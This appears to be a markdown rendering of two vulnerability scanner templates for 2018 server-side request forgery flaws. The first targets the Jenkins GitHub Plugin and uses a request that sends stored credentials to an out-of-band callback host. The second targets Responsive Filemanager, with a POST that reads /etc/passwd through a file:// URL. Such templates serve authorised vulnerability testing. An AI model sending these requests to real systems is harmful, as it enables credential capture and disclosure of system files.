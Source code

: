 
# Jenkins GitHub Plugin <=1.29.1 - Server-Side Request Forgery

## Description

- Jenkins GitHub Plugin 1.29.1 and earlier is susceptible to server-side request forgery via GitHubTokenCredentialsCreator.java, which allows attackers to leverage attacker-specified credentials IDs obtained through another method and capture the credentials stored in Jenkins.

- severity - high
- tags - cve,cve2018,jenkins,ssrf,oast,github

## Requests

- Method - GET

### URL

- {{BaseURL}}/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.github.config.GitHubTokenCredentialsCreator/createTokenByPassword?apiUrl=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Responsive filemanager 9.13.1 Server-Side Request Forgery

## Description

- Responsive filemanager 9.13.1 is susceptible to server-side request forgery in upload.php via the url parameter.
- severity - critical
- tags - cve,cve2018,ssrf,lfi,packetstorm,edb

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/filemanager/upload.php
  - fldr=&url=file:///etc/passwd

